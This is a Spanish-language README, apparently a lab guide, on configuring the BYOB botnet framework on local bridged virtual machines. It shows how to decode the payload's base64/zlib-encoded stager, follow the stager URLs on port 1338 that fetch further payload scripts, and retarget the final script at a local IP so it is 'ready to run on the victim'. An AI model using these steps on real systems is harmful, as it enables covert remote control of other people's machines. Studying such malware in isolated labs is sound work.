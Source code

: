 # BYOB VM SIN PF

Configurar BYOB para usarse localmente con máquinas virtuales en Bridge:

Descargar el payload de Byob en formato Python y leerlo para analizarlo:

![image](https://user-images.githubusercontent.com/111320119/231319590-39e3dc16-11a0-4d95-b36d-3fb8cc5acf9c.png)

En una terminal de Python, importa las librerias y copia el siguiente fragmento del archivo:
zlib.decompress(base64.b64decode(b'eJwrtWFgYCgtyskvSM3TUM8oKSmw0tc3tDDXM7Q00DMyMNUzMbUyNDa20NcvLklMTy0q1q+0DNQrqFTX1CtKTUzR0AQATWsSNg=='))

De esta manera, podremos decodificar la base 64 de lo que nos arroja dicho script.

![image](https://user-images.githubusercontent.com/111320119/231319884-e1eb9872-d05d-4024-bf69-cf9c51fc0247.png)


Dicho script nos arroja la dirección IP públic a la que se hace la petición, junto con el puerto al que hará la petición el bot una vez que se esté corriendo el script, copiamos el siguiente fragmento marcado en rojo:

![image](https://user-images.githubusercontent.com/111320119/231320107-917085c1-6fda-459e-8cc7-565033ca041c.png)

Lo ingresamos en el navegador antecediento la IP donde se encuentra hosteada el BYOB. (tiene que estar en modo bridge la máquina virtual). Nos arrojará otro scipt de Python del que recuperaremos otra URL que modificaremos

Sintaxis:  http:// IP:1338 //stagers/nombrepayoad.py


![image](https://user-images.githubusercontent.com/111320119/231320343-923317d0-f87e-4e24-8218-8c2e21f4cf23.png)

Hasta el final de dicho archivo encontraremos la URL y recuperaremos lo siguiente:

![image](https://user-images.githubusercontent.com/111320119/231320691-ec35fb4a-49aa-4ac8-9954-3eb7a755467d.png)

Realizamos la misma dinámica de extraer lo marcado en rojo y sustituir nuestra IP pública por la IP local de la máquina virtual. Encontraremos otro script de python que copiaremos en un bloq de notas, completamente


![image](https://user-images.githubusercontent.com/111320119/231321182-10db2e35-7198-4b71-8c93-cc9eb553e144.png)

Hasta el final basta con cambiar la ip pública a nuestra IP local en el espacio marcado en morado y guardar dicho archivo de Python. Este mismo quedará listo para ejecutarse en la víctima.

![image](https://user-images.githubusercontent.com/111320119/231321507-1bf44591-ff41-4d44-8e53-c61aa1dab828.png)

creditos: https://www.youtube.com/watch?v=9WqHuYP-vBA


## Manejo de errores
